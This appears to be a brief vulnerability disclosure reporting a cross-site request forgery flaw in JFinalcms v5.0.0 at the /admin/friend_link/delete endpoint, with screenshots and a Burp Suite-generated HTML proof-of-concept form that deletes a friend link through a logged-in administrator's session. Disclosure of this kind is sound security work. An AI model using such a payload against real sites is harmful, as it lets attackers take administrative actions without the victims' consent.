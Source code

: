 Author：MengYang

target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/friend_link/delete

![图片](https://github.com/cui2shark/cms/assets/52313275/60287468-36fb-4175-924c-e21f4aa3c0ac)


create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/25af7689-7b95-458f-b9e4-98428cde7459)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/friend_link/delete" method="POST">
      <input type="hidden" name="ids" value="3" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/5de84c66-8664-4d79-adda-f4660ce43575)

